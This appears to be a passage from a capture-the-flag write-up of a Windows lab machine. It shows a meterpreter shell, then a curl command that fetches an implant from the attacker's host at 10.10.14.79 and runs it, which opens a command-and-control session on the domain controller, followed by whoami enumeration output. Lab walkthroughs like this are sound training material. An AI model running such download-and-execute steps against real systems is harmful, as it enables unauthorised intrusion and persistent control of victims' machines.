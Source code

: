 ```c
meterpreter > shell
Process 2352 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Web\University>
```

```c
C:\tmp>curl 10.10.14.79/AMATEUR_BELFRY.exe -o AMATEUR_BELFRY.exe
curl 10.10.14.79/AMATEUR_BELFRY.exe -o AMATEUR_BELFRY.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15.1M  100 15.1M    0     0  28.6M      0 --:--:-- --:--:-- --:--:-- 28.6M
```

```c
C:\tmp>AMATEUR_BELFRY.exe
AMATEUR_BELFRY.exe
```

```c
[*] Session f78449fd AMATEUR_BELFRY - 10.129.153.87:62580 (DC) - windows/amd64 - Sun, 27 Oct 2024 16:43:55 CET
```

## Enumeration

First of all we started with some basic `enumeration` and found out that we got a shell as the user `WAO`.

```c
C:\>whoami /all
whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
university\wao S-1-5-21-2056245889-740706773-2266349663-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
```